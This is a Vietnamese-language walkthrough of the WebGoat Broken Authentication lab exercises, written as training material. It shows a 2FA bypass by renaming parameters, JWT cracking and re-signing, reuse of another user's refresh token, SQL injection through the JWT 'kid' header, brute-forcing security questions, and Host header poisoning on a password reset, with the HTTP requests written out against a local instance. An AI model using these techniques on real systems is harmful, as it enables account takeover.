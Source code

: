 # (A2) Broken Authentication

## Authentication Bypasses

### 2. 2FA Password Reset

Sửa hai param `secQuestion0` và `secQuestion1` trong request thành `secQuestionA` và `secQuestionB`.

## JWT

### 3. Decoding a JWT token

Sử dụng [jwt.io](https://jwt.io) để decode.

### 5. JWT signing

Đổi user thành Jerry và bấm Reset votes. Sau đó vào phần cookie của request sẽ thấy một cái `access_token`. Sửa lại đoạn jwt như sau:

![1](images/1.png)

### 8. JWT cracking

Dùng john để crack jwt secret sau đó dùng cyberchef để sign lại.

### 10. Refreshing a token

Khi load lession mình sẽ bắt được 1 cái request trông như thế này:

```
POST /WebGoat/JWT/refresh/login HTTP/1.1

...

{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
```

Và response của nó:

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "etmOBMYjKgqDZHOxCTiC"
}
```

Sử dụng `refresh_token` của Jerry để làm mới lại token của Tom:

```
POST /WebGoat/JWT/refresh/newToken HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
Content-Type: application/json; charset=UTF-8

...

{
  "refresh_token" : "etmOBMYjKgqDZHOxCTiC"
}
```

Mình nhận được token mới:

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "cSxIFRlEhSDkCKXZIBQB"
}
```

Thay token mới của Tom vào `checkout` request là xong:

```
POST /WebGoat/JWT/refresh/checkout HTTP/1.1
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg
...
```

### 11. Final challenge

SQLi vào phần `kid` ở header của jwt:

Phần `bWVv` được `UNION SELECT` chính là key `meo` đã được dùng để sign đoạn jwt này.

![2](images/2.png)

## Password reset

### 4. Security questions

Dùng burpsuite để bruteforce bảng màu:

username: 

```
admin
```

color: 

```
green
```

### 5. Creating the password reset link

Email sẽ được gửi đến header `Host` nên mình sẽ thay qua port `9090` là cổng của WebWolf để nhận email và reset lại password:

![5](images/5.png)

Link reset password nhận được bên WebWolf:

![6](images/6.png)

Sửa lại url và đặt lại pass rồi đăng nhập là xong.

```
http://127.0.0.1:8080/WebGoat/PasswordReset/reset/reset-password/bdc59334-7bfd-4a47-9a31-c159f4a71b27
```
